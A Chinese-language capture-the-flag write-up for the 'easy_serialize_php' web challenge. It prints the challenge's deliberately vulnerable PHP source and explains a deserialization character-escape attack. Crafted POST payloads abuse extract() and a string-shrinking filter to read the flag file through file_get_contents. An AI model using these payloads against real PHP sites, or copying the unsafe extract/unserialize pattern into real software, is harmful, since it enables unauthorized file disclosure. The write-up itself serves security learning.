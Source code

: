 ## 源码：https://github.com/D0g3-Lab/i-SOON_CTF_2019/tree/master/Web/easy_serialize_php

## 类型：php反序列化-字符逃逸

## 解题步骤：

**1：index页面上有名为source code的链接，点击后源码展示如下：**

```php
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

**2：根据提示查看phpinfo()，GET传递参数f=phpinfo，查找到疑似flag的文件d0g3_f1ag.php,想办法读取**

![image-20250727101138489](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250727101138489.png)

**3：审计源码，关键代码注释如下：**

```php
if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
#目标：利用file_get_contents读取d0g3_f1ag.php，因此$function == 'show_image'，base64_decode($userinfo['img']) == 'd0g3_f1ag.php'
```

```php
if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));
#序列化后经过 filter过滤，字符增加或减少，会引起字符逃逸，过滤器如下
```

```php
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}
#经过过滤后字符减少
```

```php
$_SESSION['function'] = $function;
extract($_POST);
#extract()的作用是将键值对变成对应的变量与它的值
#如果赋值了_SESSION[dd]="123",上面已经赋值过的SESSION[]就会消失
```

正常序列化结果：

```php
a:3:{s:4:"user";s:5:"guest";s:8:"function";s:xx:"xxxxxxxxxxxxxxxxx";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}#guest_img.png
```

通过extract()可以控制user和funtion，user吃掉原来fucntion，function给新img

```php
_SESSION[user]=flagflagflagflagflagphp&_SESSION[function]=";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"1";s:1:"2";}
```

还有一种过滤键名

```php
_SESSION[flagphp]=;s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

过滤前：

```php
a:2:{s:7:"phpflag";s:48:";s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";s:3:"img".......;}
```

过滤后：

```php
a:2:{s:7:"";s:48:";s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";.....;}
```







